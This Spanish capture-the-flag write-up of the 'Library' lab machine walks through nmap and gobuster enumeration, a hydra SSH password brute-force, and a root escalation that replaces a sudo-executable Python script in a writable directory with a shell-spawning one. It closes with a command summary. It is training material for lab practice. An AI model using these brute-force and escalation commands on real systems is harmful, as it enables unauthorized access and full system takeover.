# Write-up Library

**Autor**: Asier González

## Reconocimiento

Empiezo con un escaneo completo para ver puertos, servicios y versión del sistema:

```bash
db_nmap -sV -sC -O -A -T4 -p- -Pn IP
```



Descubro dos puertos abiertos:

- `22/tcp` (SSH)
- `80/tcp` (HTTP)



## Enumeración

Decido usar `gobuster` para enumerar directorios:

```bash
gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt
```



Los únicos recursos interesantes que aparecen son:

- `robots.txt`
- `index.html`

Cuando reviso `robots.txt`, veo esto:

```text
User-agent: rockyou
```

Interpreto la pista como una sugerencia clara de fuerza bruta con la wordlist `rockyou`.



Antes de lanzar nada, reviso también `index.html`.

Ahí encuentro que hay un usuario llamado `meliodas`, que es quien publica las entradas. En los comentarios aparecen además otros nombres como:

- `root`
- `www-data`
- `Anonymous`




## Explotación

Pruebo fuerza bruta por SSH con `hydra`, usando `meliodas` y `rockyou`:

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt -t 4 -vV ssh://IP -f
```

Encuentro la contraseña de ese usuario:

```text
iloveyou1
```



Con esas credenciales, me conecto por SSH a la máquina.



Lo primero que hago es comprobar qué permisos tengo. Pruebo varios comandos, pero el que realmente me interesa aquí es:

```bash
sudo -l
```




Veo que puedo ejecutar `python` y el archivo `bak.py` con privilegios elevados.

Al revisar la situación, veo que `bak.py` se ejecuta como `root`, pero el archivo original pertenece también a `root`, así que no puedo editarlo directamente. Aun así, como el directorio es escribible para `meliodas`, sí puedo borrarlo y crear otro con el mismo nombre.

Compruebo eso con:

```bash
ls -ld /home/meliodas
```

## Escalada de privilegios

Borro el archivo original:

```bash
rm -f /home/meliodas/bak.py
```

Creo un nuevo `bak.py` que abra una shell como `root`. Por ejemplo:

```bash
echo 'import os; os.system("/bin/bash")' > /home/meliodas/bak.py
```

También valdría:

```bash
echo 'import pty; pty.spawn("/bin/bash")' > /home/meliodas/bak.py
```

Después ejecuto el script con la ruta completa:

```bash
sudo python /home/meliodas/bak.py
```

Es importante usar la ruta completa del archivo, porque si no `sudo` intenta resolverlo desde otra ubicación y no funciona como espero.




Con eso ya obtengo una shell con privilegios de `root`.

## Resultado

La vulnerabilidad aquí es una mala configuración de permisos:

- El usuario puede ejecutar Python como `root` mediante `sudo`
- El directorio es escribible, así que puede sustituir un script que luego se ejecuta con privilegios elevados

Eso permite ejecutar código arbitrario como `root` de una forma bastante limpia.

## Resumen de comandos directo a SYSTEM/root

1. `db_nmap -sV -sC -O -A -T4 -p- -Pn IP`
2. `gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`
3. Identificar el usuario `meliodas` y la pista `rockyou`
4. `hydra -l meliodas -P /usr/share/wordlists/rockyou.txt -t 4 -vV ssh://IP -f`
5. `ssh meliodas@IP`
6. `sudo -l`
7. `ls -ld /home/meliodas`
8. `rm -f /home/meliodas/bak.py`
9. `echo 'import os; os.system("/bin/bash")' > /home/meliodas/bak.py`
10. `sudo python /home/meliodas/bak.py`
11. `whoami`
